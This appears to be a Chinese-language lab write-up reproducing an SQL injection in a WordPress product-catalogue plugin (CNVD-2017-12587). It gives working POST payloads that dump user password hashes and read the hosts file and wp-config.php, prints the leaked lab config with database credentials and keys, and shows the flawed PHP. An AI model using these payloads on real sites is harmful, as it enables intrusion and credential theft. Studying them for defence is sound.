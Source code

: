 ```yaml
---
layout: post
title: "CNVD-2017-12587(WordPress Ultimate Product Catalogue 4.2.2 插件SQL注入漏洞)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - WordPress
author: ""
tags: ['CVE', 'WordPress', 'SQL_Injection']
---
```




# CNVD-2017-12587(WordPress Ultimate Product Catalogue 4.2.2 插件SQL注入漏洞)

###### tags: `CVE` `wordpress`




環境:
win7
mamp (apache + mysql)
wordpress 創建一個一般使用者

漏洞插件:
WordPress Ultimate Product Catalogue 4.2.2






## 一些坑:


mysql.ini 加上 secure_file_priv=

詳細說明:
https://blog.51cto.com/u_15162069/2742169

```
[mysqld] 
secure_file_priv=
```

### mysql load_file:
```mysql=

show global variables like '%secure%';


//測試
select load_file('D:/123.txt');


//有時打印不出來，需要轉成hex 
//D:/123.txt => 443a2f3132332e747874
select load_file(0x443a2f3132332e747874);


```



### 安裝插件:記得用.zip檔案安裝



## POC

## url:
```
//需要在使用者登入狀態下使用
http://localhost/wp-admin/admin-ajax.php?action=get_upcp_subcategories
```


## post payload:
```

CatID=0 UNION SELECT user_login,user_pass FROM wp_users WHERE ID=1




CatID=0 UNION SELECT 1,user()




//印出:\Windows\System32\drivers\etc\hosts
//C:\Windows\System32\drivers\etc\hosts
//to hex
//433a5c57696e646f77735c53797374656d33325c647269766572735c6574635c686f737473

CatID=0 UNION SELECT 1,load_file(0x433a5c57696e646f77735c53797374656d33325c647269766572735c6574635c686f737473);



```



### 印出 wordpress\wp-config.php 
前提是你需要知道絕對路徑:
ex:D:\123.txt

回傳的代碼需要自己排版一下
```
//方法同上


response:


<!--?php
/**
 * WordPress基础配置文件。
 *
 * 这个文件被安装程序用于自动生成wp-config.php配置文件，
 * 您可以不使用网站，您需要手动复制这个文件，
 * 并重命名为“wp-config.php”，然后填入相关信息。
 *
 * 本文件包含以下配置选项：
 *
 * * MySQL设置
 * * 密钥
 * * 数据库表名前缀
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/zh-cn:%E7%BC%96%E8%BE%91_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL 设置 - 具体信息来自您正在使用的主机 ** //
/** WordPress数据库的名称 */
define('DB_NAME', 'wordpress');

/** MySQL数据库用户名 */
define('DB_USER', 'root');

/** MySQL数据库密码 */
define('DB_PASSWORD', 'root');

/** MySQL主机 */
define('DB_HOST', 'localhost');

/** 创建数据表时默认的文字编码 */
define('DB_CHARSET', 'utf8mb4');

/** 数据库整理类型。如不确定请勿更改 */
define('DB_COLLATE', '');

/**#@+
 * 身份认证密钥与盐。
 *
 * 修改为任意独一无二的字串！
 * 或者直接访问{@link https://api.wordpress.org/secret-key/1.1/salt/
 * WordPress.org密钥生成服务}
 * 任何修改都会导致所有cookies失效，所有用户将必须重新登录。
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'Q(-->Zqw%jyM&amp;JAlE(DOqk3YfY/U4c=H=Ca,n:r&gt;)U!V#6y[]fd@A9b]~zrye3:D7=');
define('SECURE_AUTH_KEY',  '(C+3WwICt[<qqc7}))[crwg rrc_aiyxfjag:j.)yorge@by="" o?ah|%[uy{bkahh');="" define('logged_in_key',="" '{3rrjcrx2ok;gq8kzm;;e-x$93p6~bai_na-bo:y&bk|f2uzwhzw(&gq_lje^1&~');="" define('nonce_key',="" '="y}#.g7zSP1]b2`~cK.`_(Q@ZzGu">@vD#T2^{|ipp&amp;I0reP_N-RWI)a5*^/^!k7&amp;');
define('AUTH_SALT',        'I=HF^3_Oly6(HV8@RS7A,Oe7Vt)dMtnc.Lb;?T0e$:O;PJt4#SeD^?uxa1bs;@5E');
define('SECURE_AUTH_SALT', 'FxR/L]=][Y{I9)7p@[EP?`Qi}t~zY]i:`oV:H4`&amp;]+nOk_FhFA}OSpM((hr4ho@E');
define('LOGGED_IN_SALT',   '_m3]4zfmI8X%r.{Cx=jx&lt;&amp;1TMog|mk=VI9va!(qM)4|K:2yX}E-N$]gf8w@|ixCd');
define('NONCE_SALT',       'lrW}m#j0N+|An{:Hc]W%c0~}*v6x&gt;sSg3wzwzP9$WvO7{E[0^)U+myD!#hu&amp;C2]`');

/**#@-*/

/**
 * WordPress数据表前缀。
 *
 * 如果您有在同一数据库内安装多个WordPress的需求，请为每个WordPress设置
 * 不同的数据表前缀。前缀名只能为数字、字母加下划线。
 */
$table_prefix  = 'wp_';

/**
 * 开发者专用：WordPress调试模式。
 *
 * 将这个值改为true，WordPress将显示所有用于开发的提示。
 * 强烈建议插件开发者在开发环境中启用WP_DEBUG。
 *
 * 要获取其他能用于调试的信息，请访问Codex。
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/**
 * zh_CN本地化设置：启用ICP备案号显示
 *
 * 可在设置→常规中修改。
 * 如需禁用，请移除或注释掉本行。
 */
define('WP_ZH_CN_ICP_NUM', true);

/* 好了！请不要再继续编辑。请保存本文件。使用愉快！ */

/** WordPress目录的绝对路径。 */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** 设置WordPress变量和包含文件。 */
require_once(ABSPATH . 'wp-settings.php');
0</qqc7}))[crwg></body>


```

總之 sql 注入可以弄很多東西。






## 分析


wp-content/plugins/ultimate-product-catalogue/Functions/Process_Ajax.php
```PHP=
function Get_UPCP_SubCategories() {
	global $subcategories_table_name;
	$Path = ABSPATH . 'wp-load.php';
	include_once($Path);
	global $wpdb;
	
	$SubCategories = $wpdb->get_results("SELECT SubCategory_ID, SubCategory_Name FROM $subcategories_table_name WHERE Category_ID=" . $_POST['CatID']);
	foreach ($SubCategories as $SubCategory) {$Response_Array[] = $SubCategory->SubCategory_ID; $Response_Array[] = $SubCategory->SubCategory_Name;}
	if (is_array($Response_Array)) {$Response = implode(",", $Response_Array);}
	else {$Response = "";}
	echo $Response;
}
```


$_POST['CatID'] 沒過濾

```SQL=
$SubCategories = $wpdb->get_results("SELECT SubCategory_ID, SubCategory_Name FROM $subcategories_table_name WHERE Category_ID=" . $_POST['CatID']);
```





這題太簡單了，輕鬆一下。












































